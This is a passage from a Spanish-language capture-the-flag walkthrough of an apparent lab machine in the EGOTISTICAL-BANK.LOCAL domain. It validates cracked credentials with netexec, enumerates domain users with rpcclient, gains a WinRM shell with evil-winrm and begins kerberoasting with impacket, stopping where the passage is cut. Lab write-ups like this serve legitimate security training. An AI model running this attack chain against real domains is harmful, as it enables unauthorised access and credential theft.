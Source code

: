 ![Pasted image 20250314100911](https://github.com/user-attachments/assets/bda69a50-ae81-4ae3-b63d-89e373f532f4)

Tenemos credenciales válidas para el dominio -> fsmith:Thestrokes23

Aunque todo apunta a ello, vamos a  validarlas con netexec:

``netexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

![Pasted image 20250314102630](https://github.com/user-attachments/assets/8f1833d8-efe0-4852-b728-ed5d10d3e77c)

En el output podemos ver [+], por lo que nos confirma que son credenciales válidas.

La pregunta ahora es: Vale, tengo credenciales válidas, pero, ¿puedo conectarme con dichas credenciales? ¿Forma parte del grupo Remote Management Users el usuario que tenemos? Pues vamos a comprobarlo.

``netexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

![Pasted image 20250314102738](https://github.com/user-attachments/assets/66a05405-ccef-49e2-88b5-a58554cdf2f6)

Pwn3d! Genial, podemos conectarnos por winRM.

Antes de conectarnos con evil-winrm podemos seguir enumerando. Por ejemplo, si nos conectamos a través de RPC podemos listar usuarios (aunque también podríamos listarlos desde dentro si nos conectamos con evil-winrm):

``rpcclient -U 'fsmith%Thestrokes23' 10.10.10.175 -c enumdomusers > rpcusers.txt``

![Pasted image 20250314101843](https://github.com/user-attachments/assets/0ea9487c-b71a-4d6c-bb92-d4ea05034317)

Tenemos usuarios del dominio, pero si quisiéramos tener un diccionario de usuarios válidos, primero tenemos que hacer un tratamiento a dichos datos. Nos quedaremos sólo con lo que está entre los primeros corchetes.

``cat rpcusers.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``

![Pasted image 20250314102515](https://github.com/user-attachments/assets/63f1a9d8-5c00-4eea-a04d-34a755346c55)

Nos conectamos por winRM como el usuario fsmith.

``evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'``

![Pasted image 20250314102944](https://github.com/user-attachments/assets/9403b1d6-ee09-4ed8-9bae-41c227057bf9)

Estamos dentro de la máquina víctima.

Recogemos la flag de usuario en C:\Users\FSmith\Desktop\user.txt

![Pasted image 20250314103151](https://github.com/user-attachments/assets/3cb1a149-e1e3-4b0c-b8f7-735806361357)

# Privesc

Tenemos un listado de usuarios del dominio y unas credenciales válidas, por lo que vamos a probar kerberoasting.

``impacket-GetUserSPNs -request -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith``
